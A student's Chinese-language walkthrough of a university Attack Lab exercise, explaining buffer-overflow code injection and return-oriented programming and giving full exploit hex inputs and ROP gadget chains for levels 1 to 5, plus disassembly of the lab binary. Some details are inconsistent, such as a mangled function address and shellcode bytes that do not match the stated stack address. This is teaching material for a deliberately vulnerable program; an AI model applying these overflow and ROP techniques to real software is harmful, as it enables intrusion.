


# PKU 2025 Attack Lab 个人解析

### 文件说明

1. target70.tar 为lab的源压缩包，target70/ 为解压后的目录；attack-writeup为autolab提供的实验说明。
2. 解压后的目录中，`farm.c`, `hex2raw`, `README.txt`, `c/r/starget`, `cookie.txt` 为源文件，剩下的为我创建的文件，具体有：

    1. `exploit-hex.txt` 为各个level构造出的十六进制答案序列；
    2. `code.s` 为各个level手工编写的几行机器语言，`code.o`, `code.asm`为使用命令后得到的完整版汇编语言，便于取出各条语句的十六进制编译。
    3. `1.txt`, `2.txt`, 等等为各个level的最终输入文件，是使用`hex2raw`输入`exploit-hex.txt`之后得到的字符串序列文件。

为了方便起见，下面的cookie值假设都是0x12345678，读者只需要将这个值替换为自己的`cookie.txt`文件中的值即可。

这个lab的介绍（writeup）中有详细的实验说明、各个level的解题建议和函数说明、一些工具的使用方式，类似于引导式地帮助完成该实验，比datalab和bomblab要良心一点。下面给出一些工具的用法（在writeup中都有）：

1. `hex2raw` 将十六进制文本转换为对应的字符串。可以输入**以空格或者换行符分割的十六进制数字文件(.txt)**，并把输出传到另一个文件中作为`ctarget`的输入字符串。方法是在命令行中：`./hex2raw < answer-hex1.txt > 1.txt`。一般来说，都是先在一个`exploit-hex1.txt`中拼接好该阶段的答案之后，再借用这个工具转换为对应的字符串格式文件`1.txt`，就可以直接给target了：`./ctarget -i 1.txt`。或者在gdb中，使用`run < 1.txt`传入。

2. 有些阶段需要注入自己的汇编代码，可以先把要写的汇编写入一个`code.s`文件中，使用命令行：`gcc -c code.s`得到文件`code.o`，然后再利用objdump反汇编得到完整的汇编：`objdump -d code.o > code.asm`，得到的`code.asm`中就有各个机器代码语句的十六进制编码了。然后结合1中的步骤把这些拼到`1.txt`中组合答案。


### 前置知识(个人理解)

%rsp的栈指针，%rip存的是当前执行的指令地址，在gdb中用`x/5i $rip`查看接下来要执行的5条机器码。

在函数调用时会用到call的指令，当运行call指令后相关寄存器的行为是：%rsp将会减8字节，然后将这个call指令的下一条指令的地址写入%rsp的位置；将call的函数的首地址写入%rip中，%rip所指向的地址就是当前机器运行的指令。

此外，ret指令可以简单地理解为：
```
popq %rip
```
也就是从栈中弹出八个字节到%rip中，执行%rip地址处的代码。

----

在这个lab中，入口函数中会有一个getbuf函数，通过获取用户的输入来进行接下来的操作。而我们要做的就是，通过在输入中构造长度超过程序设定长度的字符串，使得这个字符串在填充程序给定空间之后，继续覆盖先前的空间（这里都是栈中的空间）。根据上一段的论述我们知道，紧接着的8个字节就是返回地址。也就是说，假设程序想要获取16字节的输入，我们输入了24个字节，那么尾部的8个字节就会顺理成章地覆盖掉返回地址。这样，当return的时候，%rip中获取的地址就不是程序原来的地址了，而是根据我们的输入来跳转到我们想要的地址处。而我们想要的地址往往是攻击代码，这就实现了攻击的目的，也就是这个lab的名称了。

在level1中，我们直接覆盖返回地址使其成为攻击代码地址；而在level2和3中，我们甚至可以直接注入我们自己写的代码来执行。

可能你会疑惑，我输入的明明是16进制数字转换成的字符串，我怎么可能注入我的机器代码呢？就算注入了，我怎么能让这些代码得到执行呢？

这里就有一个小技巧，我们覆盖返回地址的时候，不一定只能呆呆地覆盖成已有的攻击代码的地址开始处（如touch2的地址）。我们还可以利用覆盖的8字节之前的输入呀！意思就是，假设预设的输入是16字节，我们输入24字节，但是末尾的8个字节我们设置为**输入的24字节的开始字节地址处**，这样在return的时候，就会从我们输入的字符串的开始处执行了！我们可以在这16个字节里面做事情，比如给%rdi传值、把touch2的地址push到栈中在ret一下，就也完成了跳转到touch2的目标了。

我们的机器代码不是一条一条的指令吗？怎么写进栈里面？别忘了汇编代码中每条指令前面的一串十六进制数字--那些就是他们的十六进制编码。我们把这些编码写到我们构造的答案中，当%rip指向它们时会自动执行这些指令的。这就完成了level2和level3的思路。

---

这样的操作实际是有一定限制的：我们覆盖返回地址为栈顶时（也就是我们输入的24字节的首地址），要把栈顶的地址的十六进制数字明明确确地写出来，写在我们24字节的最后8字节中。那假设程序做了栈位置随机化呢？每次启动后地址都改变了，我们的返回地址也会失效。此时有另一种办法来解决：我们可以利用另一种办法来解决：利用程序中已有的代码来构造我们所需的代码，而不是通过注入自己编写的代码。

举个例子，假设程序中有这样一个函数：
```c
0000000000401f69 <getval_162>:
  401f69:	f3 0f 1e fa          	endbr64
  401f6d:	b8 68 89 c7 90       	mov    $0x90c78968,%eax
  401f72:	c3                   	ret
```
按理来说假设程序执行这个函数，%rip的起始地址肯定是401f69开始一条一条执行。假设，我们将覆盖的8个字节的地址改成00401f69，那么会顺利进入该函数执行。

我们发现在编码中有：`89 c7 90 c3`，其中89 c7是`movl %eax, %edi`的编码，90是`nop`的编码，c3是`ret`的编码，假设我们将覆盖的地址写成从89这个值开始的地址，也就是00401f6f，这样%rip会从该处执行，也就是执行上述的三条新的指令了。在ret之后，假设我们输入的不是24字节而是32字节，我们在倒数第16到倒数第8字节中写的是0000000000401f6f，那么在ret之后%rip会写入倒数第8到末尾的地址，此时就可以继续写另一条机器码的地址，实现一连串的跳转与操作。

在level4、5、6中都是借助这种思想来完成构造输入的，就是通过在farm中找到我们需要的指令编码来一条一条构造出我们的机器码，实现一系列操作。

---

### level1

```assembly
0000000000401ec1 <test>:
  401ec1:	f3 0f 1e fa          	endbr64
  401ec5:	48 83 ec 08          	sub    $0x8,%rsp
  401ec9:	b8 00 00 00 00       	mov    $0x0,%eax
  401ece:	e8 92 fd ff ff       	call   401c65 <getbuf>
  401ed3:	89 c2                	mov    %eax,%edx
  401ed5:	48 8d 35 1c 23 00 00 	lea    0x231c(%rip),%rsi        # 4041f8 <_IO_stdin_used+0x1f8>
  401edc:	bf 02 00 00 00       	mov    $0x2,%edi
  401ee1:	b8 00 00 00 00       	mov    $0x0,%eax
  401ee6:	e8 a5 f2 ff ff       	call   401190 <__printf_chk@plt>
  401eeb:	48 83 c4 08          	add    $0x8,%rsp
  401eef:	c3                   	ret

0000000000401c65 <getbuf>:
  401c65:	f3 0f 1e fa          	endbr64
  401c69:	48 83 ec 28          	sub    $0x28,%rsp // 40
  401c6d:	48 89 e7             	mov    %rsp,%rdi
  401c70:	e8 57 03 00 00       	call   401fcc <Gets>
  401c75:	b8 01 00 00 00       	mov    $0x1,%eax
  401c7a:	48 83 c4 28          	add    $0x28,%rsp
  401c7e:	c3                   	ret

0000000000q <touch1>:
  401cf1:	f3 0f 1e fa          	endbr64
  401cf5:	50                   	push   %rax
  401cf6:	58                   	pop    %rax
  401cf7:	48 83 ec 08          	sub    $0x8,%rsp
  401cfb:	c7 05 1f 48 00 00 01 	movl   $0x1,0x481f(%rip)        # 406524 <vlevel>
  401d02:	00 00 00 
  401d05:	48 8d 3d ff 28 00 00 	lea    0x28ff(%rip),%rdi        # 40460b <_IO_stdin_used+0x60b>
  401d0c:	e8 6f f3 ff ff       	call   401080 <puts@plt>
  401d11:	bf 01 00 00 00       	mov    $0x1,%edi
  401d16:	e8 2e 05 00 00       	call   402249 <validate>
  401d1b:	bf 00 00 00 00       	mov    $0x0,%edi
  401d20:	e8 bb f4 ff ff       	call   4011e0 <exit@plt>
```

目的是从test进入，调用getbuf之后，不要正常返回到test中，而是跳转到touch1中。很简单，我们只需要在构造的十六进制串中，先把getbuf中预设的0x28也就是40个字节给占满，然后多写8个字节，也就是touch1的地址，这样在ret的时候会把这8个字节写入%rip中，就会执行touch1了。

所以在`exploit-hex1.txt`中写：

```
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
f1 1c 40 00 
```

在用hex2raw得到1.txt，输入给ctarget即可完成。注意，最后的地址是小端法，我们输入的地址的字节要倒过来写。具体理解方式见下图：




### level2

思路已经阐述过，这里注入的机器码要做的事情就是把我们的cookie值传递给寄存器%rdi，然后把touch2的地址push到栈再ret出来即可。同时覆盖的返回地址是栈顶，也就是输入字节串的起始地址（也就是上图的字节`12`的地址）。

首先写出机器代码：
```assembly
movq $0x12345678, %rdi
push $0x401d25
ret
```

注意cookie值要换成自己的cookie。然后使用文章开头的操作得到真实的asm：
```assembly
code2.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 78 56 34 12 	mov    $0x12345678,%rdi
   7:	68 25 1d 40 00       	push   $0x401d25
   c:	c3                   	ret
```

这里每条指令前面的数字就是编码了。我们构造的思路是：首先末尾的8字节是getbuf中对%rsp减去0x28之后的%rsp的地址（这个地址需要在gdb中查看，方法是`x $rsp`）；然后输入的开头部分就是上述机器码，中间补00即可。在`exploit-hex2`中写：

```
48 c7 c7 78 56 34 12 68 
25 1d 40 00 c3 00 00 00
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
78 00 64 55 00 00 00 00 /* stack-top address */
```

### level3

这里传入%rdi的是一个地址，这个地址处存的是cookie。那我们需要把cookie显式写在输入中，然后编写的机器码中给rdi传值成cookie的地址即可。这里有两个注意点：

1. 我们不能把cookie写在level2中那些00的位置。因为在level3中有一个hexmatch函数来检查存cookie地址处的8字节是否真的与自己的cookie相等，而这个函数可能会覆盖掉我们输入的字节。策略是把cookie写在栈中靠上方的位置（高地址处）。通过测试或者在gdb中查看hexmatch执行完之后栈中字节的变化，可以发现我们在返回地址之上的位置来写的保准安全的。

2. 首先栈顶的地址是55640078，也就是level2中开始字节48的地址。接着我们不断加8字节找到cookie首字节31的位置。也就是加0x48，得到地址556400b0。

3. 写的cookie**不能倒转字节**，因为比较的时候是按照字节比的，不是按照一个数字比较的。也就是说，会从低地址到高地址逐个取字节比较。结合上面的图更好理解。


这是机器码：
```
movq $0x556400b0, %rdi  /* 78+48=b0 */
push $0x401e4b
ret
```


这是exploit-hex3：
```
48 c7 c7 a8 00 64 55 68 
4b 1e 40 00 c3 00 00 00
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
78 00 64 55 00 00 00 00 /* stack-top address */
31 32 33 34 35 36 37 38 /* cookie: 0x12345678 */
```


### level4

直接上答案吧：

```
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
31 1f 40 00 00 00 00 00 /* gadget1: popq %rax; ret */
78 56 34 12 00 00 00 00 /* cookie: 0x12345678 */
5a 1f 40 00 00 00 00 00 /* gadget2: movq %rax,%rdi; ret */
b3 1c 40 00 00 00 00 00 /* touch2_addr */
```

**注：图中cookie字节写反了**！！！栈中那一行应该是`00 00 00 00 12 34 56 78`



执行的流程搞清楚就清晰了：

首先覆盖返回地址gadget1的地址，执行`popq %rax`之后，会使得rsp加8到cookie那一行，再把cookie的值读给rax，然后ret，使得rsp加8到gadget2那一行，把地址读给rip，让接下来执行的机器码从gadget2开始。在gadget2中，执行`movq %rax,%rdi; ret`，ret会使得rsp加8到touch2_addr那一行给rip，也就进入了touch2。

为什么只用这些gadget没用其他的？因为farm里面没找到...如果找到了当然可以使用更加复杂的方式或者简单的方式来实现。

### level5

```
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
cc 1f 40 00 00 00 00 00 /* gadget1: movq %rsp, %rax */
5a 1f 40 00 00 00 00 00 /* gadget2: movq %rax, %rdi */
31 1f 40 00 00 00 00 00 /* gadget3: popq %rax (0x20) */
48 00 00 00 00 00 00 00 /* 0x20 -> rax */

96 1f 40 00 00 00 00 00 /* gadget4: 89 c1 eax-ecx */
0d 20 40 00 00 00 00 00 /* gadget5: 89 ca ecx-edx */
84 20 40 00 00 00 00 00 /* gadget6: 89 d6 edx-esi */

88 1f 40 00 00 00 00 00 /* gadget7: add_xy, %rdi + %rsi -> %rax */
5a 1f 40 00 00 00 00 00 /* gadget8: movq %rax, %rdi */
d9 1d 40 00 00 00 00 00 /* touch3_addr */
33 36 36 31 61 39 39 34 /* cookie: 0x3661a994 */
```

地址的准确值会变化但是相对于栈指针的位置是不会变的，这里的思路是首先把rsp的值存起来，然后加上一个偏移量来得到存放cookie的地址。


0000000000401d25 <touch2>:
  401d25:	f3 0f 1e fa          	endbr64
  401d29:	50                   	push   %rax
  401d2a:	58                   	pop    %rax
  401d2b:	48 83 ec 08          	sub    $0x8,%rsp
  401d2f:	89 fa                	mov    %edi,%edx
  401d31:	c7 05 e9 47 00 00 02 	movl   $0x2,0x47e9(%rip)        # 406524 <vlevel>
  401d38:	00 00 00 
  401d3b:	39 3d eb 47 00 00    	cmp    %edi,0x47eb(%rip)        # 40652c <cookie>
  401d41:	74 2a                	je     401d6d <touch2+0x48>
  401d43:	48 8d 35 36 24 00 00 	lea    0x2436(%rip),%rsi        # 404180 <_IO_stdin_used+0x180>
  401d4a:	bf 02 00 00 00       	mov    $0x2,%edi
  401d4f:	b8 00 00 00 00       	mov    $0x0,%eax
  401d54:	e8 37 f4 ff ff       	call   401190 <__printf_chk@plt>
  401d59:	bf 02 00 00 00       	mov    $0x2,%edi
  401d5e:	e8 c1 05 00 00       	call   402324 <fail>
  401d63:	bf 00 00 00 00       	mov    $0x0,%edi
  401d68:	e8 73 f4 ff ff       	call   4011e0 <exit@plt>
  401d6d:	48 8d 35 e4 23 00 00 	lea    0x23e4(%rip),%rsi        # 404158 <_IO_stdin_used+0x158>
  401d74:	bf 02 00 00 00       	mov    $0x2,%edi
  401d79:	b8 00 00 00 00       	mov    $0x0,%eax
  401d7e:	e8 0d f4 ff ff       	call   401190 <__printf_chk@plt>
  401d83:	bf 02 00 00 00       	mov    $0x2,%edi
  401d88:	e8 bc 04 00 00       	call   402249 <validate>
  401d8d:	eb d4                	jmp    401d63 <touch2+0x3e>

0000000000401d8f <hexmatch>:
  401d8f:	f3 0f 1e fa          	endbr64
  401d93:	41 54                	push   %r12
  401d95:	55                   	push   %rbp
  401d96:	53                   	push   %rbx
  401d97:	48 83 c4 80          	add    $0xffffffffffffff80,%rsp
  401d9b:	89 fd                	mov    %edi,%ebp
  401d9d:	48 89 f3             	mov    %rsi,%rbx
  401da0:	64 48 8b 04 25 28 00 	mov    %fs:0x28,%rax
  401da7:	00 00 
  401da9:	48 89 44 24 78       	mov    %rax,0x78(%rsp)
  401dae:	31 c0                	xor    %eax,%eax
  401db0:	e8 ab f3 ff ff       	call   401160 <random@plt>
  401db5:	48 89 c6             	mov    %rax,%rsi
  401db8:	48 ba 0b d7 a3 70 3d 	movabs $0xa3d70a3d70a3d70b,%rdx
  401dbf:	0a d7 a3 
  401dc2:	48 f7 ea             	imul   %rdx
  401dc5:	48 8d 0c 32          	lea    (%rdx,%rsi,1),%rcx
  401dc9:	48 c1 f9 06          	sar    $0x6,%rcx
  401dcd:	48 89 f0             	mov    %rsi,%rax
  401dd0:	48 c1 f8 3f          	sar    $0x3f,%rax
  401dd4:	48 29 c1             	sub    %rax,%rcx
  401dd7:	48 8d 04 89          	lea    (%rcx,%rcx,4),%rax
  401ddb:	48 8d 04 80          	lea    (%rax,%rax,4),%rax
  401ddf:	48 c1 e0 02          	shl    $0x2,%rax
  401de3:	48 29 c6             	sub    %rax,%rsi
  401de6:	4c 8d 24 34          	lea    (%rsp,%rsi,1),%r12
  401dea:	ba 6e 00 00 00       	mov    $0x6e,%edx
  401def:	48 39 d6             	cmp    %rdx,%rsi
  401df2:	48 0f 43 d6          	cmovae %rsi,%rdx
  401df6:	48 29 f2             	sub    %rsi,%rdx
  401df9:	41 89 e8             	mov    %ebp,%r8d
  401dfc:	48 8d 0d 25 28 00 00 	lea    0x2825(%rip),%rcx        # 404628 <_IO_stdin_used+0x628>
  401e03:	be 02 00 00 00       	mov    $0x2,%esi
  401e08:	4c 89 e7             	mov    %r12,%rdi
  401e0b:	b8 00 00 00 00       	mov    $0x0,%eax
  401e10:	e8 0b f4 ff ff       	call   401220 <__sprintf_chk@plt>
  401e15:	ba 09 00 00 00       	mov    $0x9,%edx
  401e1a:	4c 89 e6             	mov    %r12,%rsi
  401e1d:	48 89 df             	mov    %rbx,%rdi
  401e20:	e8 3b f2 ff ff       	call   401060 <strncmp@plt>
  401e25:	85 c0                	test   %eax,%eax
  401e27:	0f 94 c0             	sete   %al
  401e2a:	48 8b 54 24 78       	mov    0x78(%rsp),%rdx
  401e2f:	64 48 2b 14 25 28 00 	sub    %fs:0x28,%rdx
  401e36:	00 00 
  401e38:	75 0c                	jne    401e46 <hexmatch+0xb7>
  401e3a:	0f b6 c0             	movzbl %al,%eax
  401e3d:	48 83 ec 80          	sub    $0xffffffffffffff80,%rsp
  401e41:	5b                   	pop    %rbx
  401e42:	5d                   	pop    %rbp
  401e43:	41 5c                	pop    %r12
  401e45:	c3                   	ret
  401e46:	e8 70 06 00 00       	call   4024bb <__stack_chk_fail>

0000000000401e4b <touch3>:
  401e4b:	f3 0f 1e fa          	endbr64
  401e4f:	53                   	push   %rbx
  401e50:	48 89 fb             	mov    %rdi,%rbx
  401e53:	c7 05 c7 46 00 00 03 	movl   $0x3,0x46c7(%rip)        # 406524 <vlevel>
  401e5a:	00 00 00 
  401e5d:	48 89 fe             	mov    %rdi,%rsi
  401e60:	8b 3d c6 46 00 00    	mov    0x46c6(%rip),%edi        # 40652c <cookie>
  401e66:	e8 24 ff ff ff       	call   401d8f <hexmatch>
  401e6b:	85 c0                	test   %eax,%eax
  401e6d:	74 2d                	je     401e9c <touch3+0x51>
  401e6f:	48 89 da             	mov    %rbx,%rdx
  401e72:	48 8d 35 2f 23 00 00 	lea    0x232f(%rip),%rsi        # 4041a8 <_IO_stdin_used+0x1a8>
  401e79:	bf 02 00 00 00       	mov    $0x2,%edi
  401e7e:	b8 00 00 00 00       	mov    $0x0,%eax
  401e83:	e8 08 f3 ff ff       	call   401190 <__printf_chk@plt>
  401e88:	bf 03 00 00 00       	mov    $0x3,%edi
  401e8d:	e8 b7 03 00 00       	call   402249 <validate>
  401e92:	bf 00 00 00 00       	mov    $0x0,%edi
  401e97:	e8 44 f3 ff ff       	call   4011e0 <exit@plt>
  401e9c:	48 89 da             	mov    %rbx,%rdx
  401e9f:	48 8d 35 2a 23 00 00 	lea    0x232a(%rip),%rsi        # 4041d0 <_IO_stdin_used+0x1d0>
  401ea6:	bf 02 00 00 00       	mov    $0x2,%edi
  401eab:	b8 00 00 00 00       	mov    $0x0,%eax
  401eb0:	e8 db f2 ff ff       	call   401190 <__printf_chk@plt>
  401eb5:	bf 03 00 00 00       	mov    $0x3,%edi
  401eba:	e8 65 04 00 00       	call   402324 <fail>
  401ebf:	eb d1                	jmp    401e92 <touch3+0x47>

0000000000401ec1 <test>:
  401ec1:	f3 0f 1e fa          	endbr64
  401ec5:	48 83 ec 08          	sub    $0x8,%rsp
  401ec9:	b8 00 00 00 00       	mov    $0x0,%eax
  401ece:	e8 92 fd ff ff       	call   401c65 <getbuf>
  401ed3:	89 c2                	mov    %eax,%edx
  401ed5:	48 8d 35 1c 23 00 00 	lea    0x231c(%rip),%rsi        # 4041f8 <_IO_stdin_used+0x1f8>
  401edc:	bf 02 00 00 00       	mov    $0x2,%edi
  401ee1:	b8 00 00 00 00       	mov    $0x0,%eax
  401ee6:	e8 a5 f2 ff ff       	call   401190 <__printf_chk@plt>
  401eeb:	48 83 c4 08          	add    $0x8,%rsp
  401eef:	c3                   	ret

0000000000401ef0 <test2>:
  401ef0:	f3 0f 1e fa          	endbr64
  401ef4:	48 83 ec 08          	sub    $0x8,%rsp
  401ef8:	b8 00 00 00 00       	mov    $0x0,%eax
  401efd:	e8 7d fd ff ff       	call   401c7f <getbuf_withcanary>
  401f02:	89 c2                	mov    %eax,%edx
  401f04:	48 8d 35 15 23 00 00 	lea    0x2315(%rip),%rsi        # 404220 <_IO_stdin_used+0x220>
  401f0b:	bf 02 00 00 00       	mov    $0x2,%edi
  401f10:	b8 00 00 00 00       	mov    $0x0,%eax
  401f15:	e8 76 f2 ff ff       	call   401190 <__printf_chk@plt>
  401f1a:	48 83 c4 08          	add    $0x8,%rsp
  401f1e:	c3                   	ret

0000000000401c65 <getbuf>:
  401c65:	f3 0f 1e fa          	endbr64
  401c69:	48 83 ec 28          	sub    $0x28,%rsp // 40
  401c6d:	48 89 e7             	mov    %rsp,%rdi
  401c70:	e8 57 03 00 00       	call   401fcc <Gets>
  401c75:	b8 01 00 00 00       	mov    $0x1,%eax
  401c7a:	48 83 c4 28          	add    $0x28,%rsp
  401c7e:	c3                   	ret

0000000000401c7f <getbuf_withcanary>:
  401c7f:	55                   	push   %rbp
  401c80:	48 89 e5             	mov    %rsp,%rbp
  401c83:	48 81 ec 20 01 00 00 	sub    $0x120,%rsp
  401c8a:	64 48 8b 04 25 28 00 	mov    %fs:0x28,%rax
  401c91:	00 00 
  401c93:	48 89 45 f8          	mov    %rax,-0x8(%rbp)
  401c97:	31 c0                	xor    %eax,%eax
  401c99:	c7 45 e4 00 00 00 00 	movl   $0x0,-0x1c(%rbp)
  401ca0:	48 8d 85 60 ff ff ff 	lea    -0xa0(%rbp),%rax
  401ca7:	48 89 c7             	mov    %rax,%rdi
  401caa:	e8 1d 03 00 00       	call   401fcc <Gets>
  401caf:	8b 45 e4             	mov    -0x1c(%rbp),%eax
  401cb2:	48 98                	cltq
  401cb4:	48 8d 95 e0 fe ff ff 	lea    -0x120(%rbp),%rdx
  401cbb:	48 8d 0c 02          	lea    (%rdx,%rax,1),%rcx
  401cbf:	48 8d 85 60 ff ff ff 	lea    -0xa0(%rbp),%rax
  401cc6:	ba 80 00 00 00       	mov    $0x80,%edx
  401ccb:	48 89 c6             	mov    %rax,%rsi
  401cce:	48 89 cf             	mov    %rcx,%rdi
  401cd1:	e8 6a f4 ff ff       	call   401140 <memcpy@plt>
  401cd6:	b8 01 00 00 00       	mov    $0x1,%eax
  401cdb:	48 8b 75 f8          	mov    -0x8(%rbp),%rsi
  401cdf:	64 48 33 34 25 28 00 	xor    %fs:0x28,%rsi
  401ce6:	00 00 
  401ce8:	74 05                	je     401cef <getbuf_withcanary+0x70>
  401cea:	e8 cc 07 00 00       	call   4024bb <__stack_chk_fail>
  401cef:	c9                   	leave
  401cf0:	c3                   	ret


---


0000000000401f1f <start_farm>:
  401f1f:	f3 0f 1e fa          	endbr64
  401f23:	b8 01 00 00 00       	mov    $0x1,%eax
  401f28:	c3                   	ret

0000000000401f29 <addval_334>:
  401f29:	f3 0f 1e fa          	endbr64
  401f2d:	8d 87 0f 58 58 90    	lea    -0x6fa7a7f1(%rdi),%eax
  401f33:	c3                   	ret

0000000000401f34 <addval_451>:
  401f34:	f3 0f 1e fa          	endbr64
  401f38:	8d 87 e5 72 58 90    	lea    -0x6fa78d1b(%rdi),%eax
  401f3e:	c3                   	ret

0000000000401f3f <getval_471>:
  401f3f:	f3 0f 1e fa          	endbr64
  401f43:	b8 58 91 c3 43       	mov    $0x43c39158,%eax
  401f48:	c3                   	ret

0000000000401f49 <addval_154>:
  401f49:	f3 0f 1e fa          	endbr64
  401f4d:	8d 87 4a 89 c7 c3    	lea    -0x3c3876b6(%rdi),%eax
  401f53:	c3                   	ret

0000000000401f54 <setval_392>:
  401f54:	f3 0f 1e fa          	endbr64
  401f58:	c7 07 48 89 c7 c3    	movl   $0xc3c78948,(%rdi)
  401f5e:	c3                   	ret

0000000000401f5f <getval_283>:
  401f5f:	f3 0f 1e fa          	endbr64
  401f63:	b8 3b e8 f4 50       	mov    $0x50f4e83b,%eax
  401f68:	c3                   	ret

0000000000401f69 <getval_162>:
  401f69:	f3 0f 1e fa          	endbr64
  401f6d:	b8 68 89 c7 90       	mov    $0x90c78968,%eax
  401f72:	c3                   	ret

0000000000401f73 <setval_490>:
  401f73:	f3 0f 1e fa          	endbr64
  401f77:	c7 07 48 89 c7 c3    	movl   $0xc3c78948,(%rdi)
  401f7d:	c3                   	ret


----


0000000000401f7e <mid_farm>:
  401f7e:	f3 0f 1e fa          	endbr64
  401f82:	b8 01 00 00 00       	mov    $0x1,%eax
  401f87:	c3                   	ret

0000000000401f88 <add_xy>:
  401f88:	f3 0f 1e fa          	endbr64
  401f8c:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  401f90:	c3                   	ret

0000000000401f91 <getval_376>:
  401f91:	f3 0f 1e fa          	endbr64
  401f95:	b8 89 c1 08 c9       	mov    $0xc908c189,%eax
  401f9a:	c3                   	ret

0000000000401f9b <setval_439>:
  401f9b:	f3 0f 1e fa          	endbr64
  401f9f:	c7 07 a9 d6 38 c9    	movl   $0xc938d6a9,(%rdi)
  401fa5:	c3                   	ret

0000000000401fa6 <addval_311>:
  401fa6:	f3 0f 1e fa          	endbr64
  401faa:	8d 87 09 ca 84 db    	lea    -0x247b35f7(%rdi),%eax
  401fb0:	c3                   	ret

0000000000401fb1 <getval_436>:
  401fb1:	f3 0f 1e fa          	endbr64
  401fb5:	b8 89 c1 18 c0       	mov    $0xc018c189,%eax
  401fba:	c3                   	ret

0000000000401fbb <addval_353>:
  401fbb:	f3 0f 1e fa          	endbr64
  401fbf:	8d 87 89 c1 00 c9    	lea    -0x36ff3e77(%rdi),%eax
  401fc5:	c3                   	ret

0000000000401fc6 <addval_366>:
  401fc6:	f3 0f 1e fa          	endbr64
  401fca:	8d 87 48 89 e0 c3    	lea    -0x3c1f76b8(%rdi),%eax
  401fd0:	c3                   	ret

0000000000401fd1 <addval_378>:
  401fd1:	f3 0f 1e fa          	endbr64
  401fd5:	8d 87 09 d6 38 d2    	lea    -0x2dc729f7(%rdi),%eax
  401fdb:	c3                   	ret

0000000000401fdc <addval_483>:
  401fdc:	f3 0f 1e fa          	endbr64
  401fe0:	8d 87 48 89 e0 c1    	lea    -0x3e1f76b8(%rdi),%eax
  401fe6:	c3                   	ret

0000000000401fe7 <getval_385>:
  401fe7:	f3 0f 1e fa          	endbr64
